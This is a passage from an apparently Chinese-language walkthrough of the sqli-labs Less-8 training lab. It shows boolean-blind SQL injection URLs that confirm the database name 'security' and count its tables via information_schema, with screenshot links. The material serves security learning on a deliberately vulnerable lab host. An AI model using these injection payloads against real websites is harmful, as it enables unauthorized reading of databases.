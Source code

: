 	中间都是同样的确认过程...

这样手动确认,直到数据库名长度测完(十分费力...),下面是最终结果

`http://10.60.250.151/sqlilabs/Less-8/?id=1' and 'security'=left(database(),8)%23`

![10](/img/sql/Lesson-8/10.png)

### 获取表 ###

#### 获取表数 ####

`http://10.60.250.151/sqlilabs/Less-8/?id=1' and 4=(select count(table_name) from information_schema.tables where table_schema='security')%23`

![11](/img/sql/Lesson-8/11.png)
#### 获取表名 ####
